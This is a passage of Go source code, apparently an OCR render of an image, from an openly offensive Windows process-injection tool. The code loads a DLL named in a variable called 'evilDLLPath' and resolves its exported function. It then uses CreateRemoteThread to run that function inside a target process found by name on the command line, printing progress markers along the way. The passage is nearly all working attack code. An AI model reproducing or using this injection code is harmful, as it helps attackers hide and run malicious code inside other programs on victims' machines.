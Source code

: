 ```go  
	}
	fmt.Println("[+] CreateRemoteThread...")
	fmt.Println("[+] Thread Handle:", threadHandle)

	_, err = syscall.WaitForSingleObject(syscall.Handle(threadHandle), syscall.INFINITE)
	if err != nil {
		return fmt.Errorf("WaitForSingleObject failed: %v", err)
	}
	fmt.Println("[+] WaitForSingleObject...")
	return nil
}

func executeExportedFunction(processHandle windows.Handle) error {

	evilDLLHandle, err := syscall.LoadLibrary(evilDLLPath)
	if err != nil {
		return fmt.Errorf("Failed to load the DLL: %v", err)
	}
	fmt.Println("[+] Loading Library:", evilDLLPath)
	fmt.Println("[+] DLL Handle:", evilDLLHandle)
	defer syscall.FreeLibrary(evilDLLHandle)

	getProcAddressProc := syscall.NewLazyDLL(evilDLLPath).NewProc(evilDLLFuncName)
	evilDLLFuncAddress, _, err := getProcAddressProc.Call()
	fmt.Println("[+] Function Address:", evilDLLFuncAddress)
	fmt.Println("[+] Function Name:", evilDLLFuncName)

	if err != nil {
		return fmt.Errorf("\n[err] executeExportedFunction(): ", err)
	}

	threadHandle, _, err := createRemoteThread.Call(
		uintptr(processHandle),
		0,
		0,
		evilDLLFuncAddress,
		0,
		0,
	)
	if threadHandle == 0 {
		return fmt.Errorf("CreateRemoteThread failed: %v", err)
	}
	_, err = syscall.WaitForSingleObject(syscall.Handle(threadHandle), syscall.INFINITE)
	if err != nil {
		return fmt.Errorf("WaitForSingleObject failed: %v", err)
	}

	return nil
}

func main() {
	if len(os.Args) < 2 {
		fmt.Println("Process name not provided. Exiting...")
		return
	}

	processName := os.Args[1]
	fmt.Println("[+] Process name:", processName)

	processID, err := FindProcessID(processName)
	if err != nil {
		log.Println("Error finding process:", err)
		return
```